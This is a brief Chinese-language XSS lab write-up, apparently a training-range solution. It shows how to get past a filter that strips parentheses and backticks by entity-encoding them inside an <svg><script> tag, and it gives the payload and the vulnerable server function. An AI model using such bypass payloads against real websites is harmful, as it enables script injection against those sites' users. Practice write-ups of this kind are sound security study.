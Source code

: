 

## 0x04——实体编码字符`<svg>`代替括号和反引号

屏蔽

```
()`
```

考虑用：

```
0x04
```



或者：实体编码字符`<svg>`

svg标签会翻译后面的unicode字符

```
<svg><script>alert&#40;1&#41;</script>
```

![image-20220115232228712](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220115232228712.png)

```
[html]
svg><script>alert&#40;1&#41</script>

[server code]
function render (input) {
  const stripBracketsRe = /[()`]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```
